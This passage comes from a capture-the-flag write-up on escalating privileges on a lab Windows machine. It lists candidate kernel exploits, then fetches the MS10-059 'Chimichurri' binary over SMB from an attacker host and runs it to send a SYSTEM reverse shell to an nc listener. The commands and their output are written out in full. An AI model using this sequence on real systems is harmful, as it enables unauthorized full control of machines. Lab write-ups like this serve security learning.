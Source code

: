 

Looking at those, as I'm not as interested in MSF modules to start, and
as IE is likely to require user interaction, ones to look into are:

-   MS10-047
-   MS10-059
-   MS10-061
-   MS10-073
-   MS11-011
-   MS13-005

### MS10-059

I did some googling around for exploit code and found [this GitHub from
egre55](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri)
that included an exploit for MS10-059. I was particularly drawn to the
fact that this binary requires an IP and port to connect to. Many of the
exploits will start a new cmd as SYSTEM, which is nice if you are
standing at the computer, but not so useful from a remote shell.

I downloaded the binary (while it's never a great idea to run exes
downloaded directly from the internet, for a CTF environment, I'm
willing to run it), and ran `smbserver.py share .` to share my current
directory.

Then in my shell, I copied it to Arctic:



    C:\ProgramDatap>net use \\10.10.14.47\share
    net use \\10.10.14.47\share
    The command completed successfully.

    C:\ProgramData>copy \\10.10.14.47\share\Chimichurri.exe .
    copy \\10.10.14.47\share\Chimichurri.exe .
            1 file(s) copied.



Now I start a `nc` listener, and run it:



    C:\ProgramData>.\Chimichurri.exe 10.10.14.47 443
    .\Chimichurri.exe 10.10.14.47 443
    /Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>



I get a shell:



    root@kali# rlwrap nc -nvlp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.11.
    Ncat: Connection from 10.10.10.11:50381.
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
